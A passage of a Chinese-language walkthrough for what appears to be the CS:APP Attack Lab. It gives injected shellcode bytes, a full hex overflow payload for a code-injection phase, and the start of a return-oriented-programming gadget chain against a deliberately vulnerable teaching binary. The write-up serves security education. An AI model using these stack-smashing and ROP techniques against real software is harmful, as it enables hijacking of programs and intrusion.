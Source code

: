    反编译文件为：

   ```
   0000000000000000 <.text>:
      0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
      7:	68 fa 18 40 00       	pushq  $0x4018fa
      c:	c3                   	retq   
   ```

3. 通过 `man ascii`将字符串转移为16进制，这个不用考虑小端

   ```
   35 39 62 39 39 37 66 61 00  //00的原因是数组/0为结尾
   ```
   
4. 最后3.txt文件为

   ```
   48 c7 c7 a8 dc 61 55 68
   fa 18 40 00 c3 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   78 dc 61 55 00 00 00 00
   35 39 62 39 39 37 66 61 00
   ```

## 第二部分 Return-Oriented Programming

首先说明rop的大致原理，对于现在的内存会开启随机栈以及不可执行区域预防代码注入也就是我们在第一部分完成的，因此我们可以覆盖函数原始的栈从而确保可执行，但是对于随机栈如何解决呢，这是我们就可以利用小工具gadget，只要我们能够确定小工具的地址，同时截取部分代码使得执行一些组合指令，就可以了。同时对于如何构建符合的指令顺序呢，这是我们只需要在每个指令后加入ret也就是对于截取片段要有0xc3，我们返回的地址正是我们下一个指令的地址，就可以了。

### level 1

要求：完成touch2，其他跟上面level 2的相同。

思路：如上

过程：

1. 根据前面我们可以得到汇编代码为

   ```
   movq    $0x59b997fa, %rdi
   pushq   $0x4017ec         
   ret                   
   ```

   但是对于rop我们可以简化得到汇编代码

   ```
   popq %rdx
   ret
   
   movq %rdx, %rdi
   ret
   ```

